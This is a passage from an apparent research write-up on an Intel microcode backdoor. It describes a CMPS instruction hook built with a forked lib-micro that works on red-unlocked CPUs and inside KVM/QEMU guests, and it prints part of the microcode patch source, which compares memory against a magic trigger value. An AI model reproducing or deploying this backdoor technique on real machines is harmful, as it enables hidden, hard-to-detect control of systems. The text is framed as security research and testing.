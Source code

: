 The following microcode utilizes lib-micro[27] for writing to MSRAM and the
Match/Patch registers. Its IN instruction microcode patch is essential for
sustaining persistent microcode hooks. The forked version of lib-micro
includes the CMPS backdoor implementation. Full source code is accessible
at: https://github.com/whensungoesdown/lib-micro

This project compiles and executes on Linux systems with CPU red unlocked,
intended for testing and research purposes. The CMPS microcode hook remains
effective even in virtualized environments using Intel VMX technology, as
virtual machines execute most instructions (including CMPS) directly on the
physical host CPU. This makes it convenient to test the backdoor's effects
on a Windows system running inside a KVM/QEMU virtual machine.


</PRE>
```c
 ucode_t ucode_patch[] = {
     {   // 0x0
         // 64-bit 0xa79016d797e6bd3d
         // 32-bit 0x97e6bd3d
         NOP,
         LDZX_DSZ32_ASZ32_SC1_DR(TMP1, RDI, 0x08) | MOD1,  // seg 0x08 es
         ZEROEXT_DSZ32_DI(TMP0, 0xa790),
         NOP_SEQWORD
     },
     {   // 0x4
         SHL_DSZ64_DRI(TMP0, TMP0, 0x10),
         ADD_DSZ64_DRI(TMP0, TMP0, 0x16d7),
         SHL_DSZ64_DRI(TMP0, TMP0, 0x10),
         NOP_SEQWORD
     },
     {   // 0x8
         ADD_DSZ64_DRI(TMP0, TMP0, 0x97e6),
         SHL_DSZ64_DRI(TMP0, TMP0, 0x10),
         ADD_DSZ64_DRI(TMP0, TMP0, 0xbd3d),
         NOP_SEQWORD
     },
     {   // 0xc
         NOP,
         //SUB_DSZ32_DRR(TMP10, TMP1, TMP0) | MOD1,   // dst, src0, src1
         SUB_DSZ64_DRR(TMP10, TMP1, TMP0),   // dst, src0, src1
         UJMPCC_DIRECT_NOTTAKEN_CONDZ_RI(TMP10, JUMP_DESTINATION),
         NOP_SEQWORD
         //0x018000e5, //SUB MSLOOP
         // BUG FIX: no MSLOOP, msloop cause gdb traped at repe cmps with
         //          resume flag (RF) set
     },
     {   // 0x10
         //U3cc8: 1c0000231027   tmp1:= LDZX_DSZN_ASZ32_SC1(rdi, mode=0x08)
         //U3cc9: 1c0000630026   tmp0:= LDZX_DSZN_ASZ32_SC1(rsi, mode=0x18)
         //U3cca: 108501034d08   tmp4:= SUB_DSZN(0x00000001, tmp4)
         0x1c0000231027, 0x1c0000630026, 0x108501034d08, 0x18000c0
     },
     {   // 0x1c
         UJMP_I(hook_address+4),
         UJMP_I(hook_address+5),
         UJMP_I(hook_address+6),
         NOP_SEQWORD
     }
 };

 // JUMP_DESTINATION code
 ucode_t ucode_patch[] = {
     //U3ccc: 11890b8279c8 rdi:= ADDSUB_DSZ16_CONDD(
     //                                   IMM_MACRO_ALIAS_DATASIZE, rdi)
```
